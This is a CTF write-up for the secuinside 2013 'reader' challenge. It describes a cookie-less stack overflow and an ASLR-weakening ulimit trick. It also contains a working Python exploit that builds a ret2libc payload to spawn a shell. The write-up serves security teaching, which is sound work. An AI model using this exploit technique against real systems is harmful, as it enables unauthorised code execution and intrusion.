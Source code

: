 ```yaml
---
title: secuinside CTF 2013 quals reader writeup
author: kelwin
layout: post
permalink: /secuinside-ctf-2013-quals-reader-writeup/
categories:
  - CTF
  - writeup
---
```

We found several stack overflows in `reader`. One in the function of checking the filename and another in the function of parsing the file. But both functions are protected by stack cookies. The only function that does not contain stack cookie is as below:

    int __cdecl print_file(char *buffer)
    {
      unsigned int i; // [sp+18h] [bp-20h]@1
      char s[7]; // [sp+1Ch] [bp-1Ch]@1
      ……
      *((_DWORD *)buffer + 6) = &i;
      ……
      sub_8048C7A(buffer);
    }
    

We can see that the `buffer` pointer in the stack is passed to another function `sub_8048C7A` as below:

    int __cdecl sub_8048C7A(char *buffer)
    {
      ……
      len = strlen(buffer + 83);
      copy_str(*((char **)buffer + 6), (char *)ptr, len);
      ……
    }
    

`sub_8048C7A` will copy a string to the stack with incorrect length. So the return address of `print_file` can be overlapped. We can specify both the length and the string source contents by deliberately constructing the input file.

To get a shell, we used a simple ret2libc attack. To get precise address functions in glibc, we disable ASLR of shared library by a well-known ulimit trick.

    ulimit -s unlimited
    

Python script to construct the input file is as below:

    import struct
    
    def p(addr):
        return struct.pack("<I", addr)
    
    system_addr = p(0x4006b280)
    binsh_addr = p(0x40192ff8)
    ret2libc = system_addr + "aaaa" + binsh_addr
    
    f = open('exploit.sec', 'w')
    b = "\xff"+"SECUINSIDE"+"\x00"+"a"*12+"\x00"+"b"*15+"1234"+"a"*8+"c"*10+"b"*50+"\xff"*4
    b +='\x05\x00\x00\x00' # buffer1
    b +='\x32\x00\x00\x00' # buffer2
    b +='\x05\x00\x00\x00' # buffer3
    b +='\x10\x00\x00\x00'
    b +='\x01'
    b += 'a' * 5 
    b += 'a' * 36 + ret2libc + 'b'*(50 - len(ret2libc) - 36)
    b += 'a' * 5
    f.write(b)
    f.close